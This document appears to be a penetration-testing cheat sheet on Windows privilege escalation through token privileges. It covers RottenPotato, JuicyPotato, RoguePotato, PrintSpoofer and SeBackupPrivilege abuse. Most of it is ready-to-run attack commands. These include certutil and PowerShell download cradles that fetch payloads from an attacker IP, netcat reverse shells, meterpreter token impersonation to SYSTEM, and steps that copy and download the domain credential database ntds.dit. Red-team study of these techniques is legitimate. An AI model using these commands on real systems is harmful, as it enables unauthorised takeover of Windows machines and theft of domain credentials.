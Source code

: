 # Privileges Abuse

* [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)




## SeImpersonatePrivilege

* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)



### Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)


#### foxglovesec/RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```


#### decoder/the-lonely-potato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)


#### ohpe/juicy-potato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
...Change LHOST to 10.10.13.37 and LPORT to 443...
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
$ sudo rlwrap nc -lvnp 443
Cmd > .\j.exe -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
```


#### RoguePotato

* [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ socat tcp-listen:135,reuseaddr,fork tcp:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```



### PrintSpoofer

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1)

Check if Print Spooler service is running:

```
PS > Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

Exploit:

```
PS > . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Users\snovvcrash\music\pwn.exe"
```



### Restore Privilege

* [https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/)




## SeBackupPrivilege



### SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```



### robocopy

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```
